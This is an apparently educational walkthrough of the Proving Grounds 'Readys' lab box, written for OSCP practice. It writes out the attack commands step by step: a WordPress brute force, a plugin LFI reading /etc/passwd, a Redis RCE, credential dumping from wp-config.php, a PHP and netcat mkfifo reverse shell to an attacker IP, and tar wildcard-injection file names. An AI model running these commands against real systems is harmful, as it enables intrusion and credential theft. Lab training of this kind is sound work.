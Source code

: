 ```yaml
---
title: Readys Walkthrough - Proving grounds
tags: Redis Wildcard WordPress
categories: Linux
---
```

In this entry I will solve PG's Readys machine. It is an Linux machine in the [TJNull](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Port and service enum

`nmap -sC -sV -p22,80,6379 192.168.223.166 -Pn -o targeted.txt`

![c5391e4051b28caa4a2edecf56afeb50.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/c5391e4051b28caa4a2edecf56afeb50.png?raw=true234)

By visiting http://192.168.223.166/ I find wordpress running so I run wpscan.

## Wordpress enumeration

`wpscan -e --url http://192.168.223.166/`

![6b16ef438cdc9c202a84aab24c57591c.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6b16ef438cdc9c202a84aab24c57591c.png?raw=true)

The website discloses the admin user. I try to bruteforce the user runing wpscan

`wpscan -e --url http://192.168.223.166/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`

## Redis enumeration

While the attack is running I check redis, I try to connect and get some info but authentication is required

`redis-cli -h 192.168.223.166`

![eae720747869812f3e7085d2ea0789d1.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/eae720747869812f3e7085d2ea0789d1.png?raw=true)

## Back to WP

Going back to the WordPress site, inspecting the source code I find SiteEditor plugin.

![6076885f10b4dcfbd3a4a4fa8223dc2f.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6076885f10b4dcfbd3a4a4fa8223dc2f.png?raw=true)

I google for any exploit and I find a possible LFI https://www.exploit-db.com/exploits/44340

`[http://192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/passwd](http://192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/passwd)`

![768b40cdbb003c2ea7b4e4fdace55e0e.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/768b40cdbb003c2ea7b4e4fdace55e0e.png?raw=true)

## Back to redis

As redis is running, I try to read redis configuration file, under /etc/redis https://stackoverflow.com/questions/32284494/where-is-the-data-directory-in-redis.

[http://192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/redis/redis.conf](http://192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/redis/redis.conf)

I find a possible username for Redis service

![d744357582946f7c99ae541cf13d1163.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/d744357582946f7c99ae541cf13d1163.png?raw=true)

By typing `AUTH Ready4Redis?` I  get the Redis version: 5.0.14.

![532c82325e1499468947b4b2d704e4bd.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/532c82325e1499468947b4b2d704e4bd.png?raw=true)

# Getting a shell

After googling for the version  I came out that this version is vulnerable to RCE . In this case I use the following [exploit](https://github.com/n0b0dyCN/redis-rogue-server). If fails try again :)

![7c570a5c9b43f3201629238e63a2bbf6.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/7c570a5c9b43f3201629238e63a2bbf6.png?raw=true)

I get a TTY through `python3 -c "import pty; pty.spawn('/bin/bash')".` After that I search for the mysql database credentials in `/var/www/html/wp-config.php`

![63258e92a72d7fe42dd95cb11f310676.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/63258e92a72d7fe42dd95cb11f310676.png?raw=true)

# MySQL

I connect to mysql and then I dump admin's credentials:

`mysql -u karl -p` Then paste the password found on wp-config.php

`show databases;`

`use wordpress;`

`select * from wp_users;`

![569b714daa20fc604f40c8e724b95821.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/569b714daa20fc604f40c8e724b95821.png?raw=true)
I try to crack the hash but I do not get any result, so I update admin's password in mysql databse, for that I use [wodpress hash generator](https://www.useotools.com/wordpress-password-hash-generator/.) tool

![bf64b842a1784c3b54a9d96863a1e8a9.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/bf64b842a1784c3b54a9d96863a1e8a9.png?raw=true)

By typing the desired password, the tool creates the mysql command to update the user's password. **Remember to rename your_user_name by 'admin' and add ";" **

``UPDATE `wp_users` SET `user_pass` = '``$P$`BxLKwoTitAjOYxf8iHcDrx0Z3ksN8v/' WHERE user_login = 'admin';`

![8228a5ec0cb9527c65914d3086843920.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/8228a5ec0cb9527c65914d3086843920.png?raw=true)

# WordPress Exploitation

After that I log in to the WordPress admin portal, with admin:admin

Go to Appearance -->Theme editor. (I am using twentytwenty template)

![4748cfa6680b70d337cf2ec9c3839b69.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/4748cfa6680b70d337cf2ec9c3839b69.png?raw=true)

Edit 404.php file and copy [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or generate one with msfvenom:

msfvenom -p php/reverse_php LHOST=192.168.45.159 LPORT=88 -f raw > reverse.php

Then trigger the exploit by visiting [http://192.168.223.166/wp-content/themes/twentytwenty/404](http://192.168.223.166/wp-content/themes/twentytwenty/404.php)

# Privilege Escalation

After getting the shell I check crontab and a backup.sh file is running.

![6d43ef534744f360c62594fb2eb4963b.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6d43ef534744f360c62594fb2eb4963b.png?raw=true)

Reading the backup file is seems that the script uses "tar" command

![f38f9eb8b8230c5bc6e76be24955b121.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/f38f9eb8b8230c5bc6e76be24955b121.png?raw=true)

### Wildcard for Privilege Escalation

The tar command in that script is using a wildcard to backup all files

First, I will create a reverse shell called "shell.sh" using netcat

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.10.10 4445 >/tmp/f" > shell.sh`

The following commands will create two empty files with the names: “–checkpoint-action=exec=sh shell.sh” and “–checkpoint=1”. These file names will be interpreted by Tar as switches when Tar attempts to bundle them. Once –checkpoint=1 is invoked tar will look for any possible actions to take. In this case that action will be to execute “sh shell.sh”.

`echo "" > "--checkpoint-action=exec=sh shell.sh"`

`echo "" > --checkpoint=1`

Finally, a netcat listener is created on the Kali machine on port 4445. Since the cronjob on the victim machine runs every two minutes the netcat listener will receive a connection within that amount of time and then spawn a shell as the root user.

Wait to the crontab and get the shell as root

![ef8bce19d64b5cc79ead44d0d007ed59.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/ef8bce19d64b5cc79ead44d0d007ed59.png?raw=true)

Pwn3d! :D
